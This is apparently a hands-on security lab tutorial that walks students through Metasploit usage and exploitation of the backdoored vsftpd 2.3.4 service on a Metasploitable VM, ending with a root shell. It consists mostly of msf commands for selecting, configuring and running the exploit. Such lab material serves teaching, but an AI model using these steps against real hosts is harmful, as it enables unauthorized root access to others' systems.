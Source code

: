 We will first explain the steps needed to use an exploit. Next, we will apply those steps to gain remote access to the victim machine using backdoored FTP server. The steps for using an exploit are the following:

1. Tell Metasploit which module you want to try with the *use* command:

```bash
msf > use exploit/platform/service/exploit_name
msf exploit(exploit_name) >
```

2. Use the *show options* command to see the parameters that the module uses: 

```bash
msf exploit(exploit_name) > show options
```

3. With the help of the *set* command, set the *RHOST* parameter to the IP address of the victim: 

```bash
msf exploit(exploit_name) > set RHOST <IP_address_victim_machine>
```

4. Finally, we run the exploit

# Example: Using backdoored FTP server

Having done a vulnerability scan, it’s time to do the actual “hacking”. Your task is now to gain remote access to the Metasploitable machine and make your access persistent by taking advantage of a "backdoor".

Backdoors are methods of bypassing the security of a software program or operating system. They are like normal exploits, but they are deliberately part of the software. 
Metasploitable has a backdoored version of **vsftpd** installed and running. If you look back at the vulnerability scan you’ll see that Nessus has discovered the backdoor.

## Using the backdoor with metasploit

Metasploit has a module that makes it easy to take advantage of the vsftpd backdoor.

+ Use the following command to search for vsftpd: `msf > search vsftpd`

+ specify the name of the exploit we want to use: `msf > use exploit/unix/ftp/vsftpd_234_backdoor`

+ Set the target IP-address: `msf exploit(vsftpd_234_backdoor) > set RHOST <IP_address_victim_machine>`

+ Run the exploit: `msf exploit(vsftpd_234_backdoor) > run`

You can see from the last line on the screen that the backdoor worked and a shell was open at port 6200 on the victim machine. You are now connected to that shell and can type
any commands you want. 

+ Using the command *whoami*, check which user you are running as. You will find out that you are logged in as "root", which means that vsftpd was running with root privileges.

+ Check that you are actually running commands on the remote machine (Metasploitable) and not locally by running the command  `hostname`
